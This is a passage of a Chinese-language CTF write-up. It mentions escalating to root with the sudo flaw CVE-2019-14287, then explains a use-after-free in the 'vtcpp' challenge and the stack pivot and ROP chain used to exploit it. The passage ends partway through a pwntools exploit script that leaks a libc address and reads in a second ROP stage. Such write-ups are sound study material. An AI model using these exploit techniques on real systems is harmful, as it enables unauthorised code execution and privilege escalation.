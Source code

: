 不过此题getshell后权限是普通用户，而flag只能root用户查看，故还要提权，发现有sudo命令，尝试[CVE-2019-14287](https://mp.weixin.qq.com/s/JEIiLl-VXAkiahKZk8ECfw)成功：

![image](https://xuanxuanblingbling.github.io/assets/pic/hws/sudo.png)

### vtcpp

> x86_64:libc2.23:c++, canary, NX, Full RELRO

- 漏洞：堆块UAF，其中有个函数指针可控
- 利用：控制流劫持后利用比较麻烦，因为在之前没有leak，所以需要连续控制执行流，最终利用步骤如下：

1. 开启了NX，故貌似只有rop一条路，那必须想办法控制栈，即rsp指向的数据
2. c++中strings对象如果字符少于16字节会把串的内容保存在栈上
3. 调试发现strings存到栈上的位置是rsp+0x28
4. 正好找到一个add rsp 0x28,ret的gadget
5. 正好找了一个pop rsp的gadget，故需要16个字节即可把栈搞走
6. 正好strings对象可以保存栈上最多的数据为16个字节
7. 上面的步骤串起来就是栈迁移，然后rop完事了

> 想起了左耳朵耗子那句：一切都是正好，没有生不逢时。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf = ELF("./vtcpp")
libc  = ELF("./libc-2.23.so")
io    = process(myelf.path,env={"LD_PRELOAD":libc.path})
#io = remote("183.129.189.60",10000)

uu64    = lambda data               :  u64(data.ljust(8, b'\0'))
sla     = lambda delim,data         :  io.sendlineafter(delim,data)
create  = lambda name,age,msg       :  (sla(">","1"), sla("name",name), sla("age",age), sla("message",msg) )
delete  = lambda                    :  (sla(">","2"))
show    = lambda                    :  (sla(">","3"))
malloc  = lambda size,data          :  (sla(">","4"), sla("size",str(size)), sla("content",data))
#gdb.attach(io,"b * 0x401a2d")

bss_addr        = 0x603360
bss_rop2        = 0x603400
scanf_got       = 0x602F88 
puts_plt        = 0x401310
read_plt        = 0x401350

pop_rdi_ret     = 0x401ca3   # pop rdi ; ret
pop_rsi_r15_ret = 0x401ca1   # pop rsi ; pop r15 ; ret
add_rsp_0x28    = 0x401a2d   # add rsp, 0x28 ; pop rbx ; pop rbp ; ret
pop_rsp         = 0x401c9d   # pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret


rop = flat([
    0x1,0x2,0x3,                                                # pop_rsp: padding 
    pop_rdi_ret, scanf_got , puts_plt,                          # puts(scanf_got):leak libc 
    pop_rdi_ret, 0, pop_rsi_r15_ret, bss_rop2, 0, read_plt,     # read next rop to bss_rop2
    pop_rsp    , bss_rop2 - 0x18                                # pop_rsp: padding in addr
])

name = p64(pop_rsp)+p64(bss_addr+8)[:7]                         # leave it in stack: rsp + 0x28
data = p64(add_rsp_0x28)+rop                                    # leave it in bss 0x603360

############################################## attack 1 ################################################
create(name,"18",data)                   
delete()
malloc(0x38,p64(bss_addr))    # UAF prepare: write func ptr (in heap) to bss_addr
```